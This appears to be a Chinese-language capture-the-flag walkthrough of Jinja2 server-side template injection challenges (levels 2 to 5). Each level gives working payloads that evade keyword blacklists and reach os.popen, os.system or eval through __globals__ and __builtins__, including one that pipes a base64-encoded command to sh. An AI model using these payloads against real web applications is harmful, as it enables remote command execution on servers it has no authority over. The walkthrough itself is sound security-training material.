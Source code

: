 ------

### 关卡2：过滤关键词（class、mro等）

- **解题思路**
  1. 使用`attr`过滤器绕过关键词过滤：
     `{{''|attr('__class__')}}`
  2. 拼接字符串绕过：
     `{{''['__cla'+'ss__']}}`
  3. 通过`request.args`传递参数：
     `{{''[request.args.a]}}`（URL参数：`?a=__class__`）。
- **关键知识点**
  - Jinja2过滤器（`|attr`）。
  - 字符串拼接和动态参数传递。
  - 绕过黑名单过滤的策略。

------

### 关卡3：禁用危险模块（如os、subprocess）

- **解题思路**
  1. 通过`__globals__`访问模块：
     `{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}`
  2. 使用`__builtins__`导入模块：
     `{{''.__class__.__mro__[1].__subclasses__()[X].__init__.__globals__.__builtins__['__import__']('os').system('ls')}}`（`X`为对应索引）。
- **关键知识点**
  - `__globals__`访问全局变量。
  - `__builtins__`内置函数的利用。
  - 索引查找危险子类的技巧。

------

### 关卡4：沙盒环境限制

- **解题思路**
  1. 利用`self`对象访问内置函数：
     `{{self.__init__.__globals__.__builtins__.eval("__import__('os').system('ls')")}}`
  2. 通过`namespace`对象绕过：
     `{{namespace.__init__.__globals__.os.system('ls')}}`（需环境支持）。
- **关键知识点**
  - `self`对象的内部属性。
  - 沙盒环境中内置变量的利用。
  - `eval`和`__import__`的链式调用。

------

### 关卡5：综合过滤与高级绕过

- **解题思路**
  1. Base64编码命令并解码执行：
     `{{''.__class__.__mro__[1].__subclasses__()[X].__init__.__globals__['os'].popen('echo "bHMgLWxhCg==" | base64 -d | sh').read()}}`
  2. 使用`format`过滤器拼接字符串：
     `{{ "%.3f"|format(1337)|replace("133", "ls") }}`（需结合其他漏洞）。
- **关键知识点**
  - 编码/解码绕过字符串检测。
  - 利用模板过滤器（如`replace`、`format`）构造命令。
  - 多步骤Payload组合攻击。
